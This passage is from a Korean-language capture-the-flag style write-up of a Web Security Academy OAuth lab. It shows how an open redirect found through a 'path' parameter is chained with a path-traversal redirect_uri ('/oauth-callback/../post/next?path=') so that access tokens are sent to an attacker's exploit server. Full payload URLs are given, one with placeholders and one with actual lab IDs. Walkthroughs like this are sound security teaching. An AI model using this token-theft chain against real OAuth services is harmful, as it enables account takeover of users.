 9. path파라메터를 여러가지 값으로 바꿔본다. 서버 URL도 변경해본다. 그러면 다음과 같이 오픈리다이렉트가 되는 것을 확인가능하다.

![오픈리다이렉트 확인](/images/burp-academy-oauth-4-2.png)

## exploit 

1. 그러면 위의 과정에서 확인한 취약점들을 합쳐보자. 다음과 같은 URL이 된다. 

```
https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```

2. 어떻게 동작할지 상세하게 살펴보자. 

- OAuth 서비스는 redirect_uri `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit` 를 검증한다. `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/`까지만 검증하므로 이 URL는 문제없이 검증을 통과할 것이다. 
- redirect_uri로 리다이렉트되므로 위의 URL은 다음과 같은 단계를 거쳐 최종적으로는 exploit서버로 접속하는 URL이 된다. 

```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit
=> https://YOUR-LAB-ID.web-security-academy.net/post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit
=> https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit

```


3. 위의 코드가 제대로 동작하는지 테스트해본다. 브라우저에서 해당 URL에 접속하면 리다이렉트가 반복되어 최종적으로 exploit 서버의 "Hello, world!"가 출력되는 페이지에 도달하는지 확인해본다. 

```
https://oauth-0a030016049327d783df301f02da00a9.oauth-server.net/auth?client_id=rirwiy73ju33bu3aaagkz&redirect_uri=https://0af7008c041e2727836132b1007900b2.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ae800950467277b83ed31d5011f00b9.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```
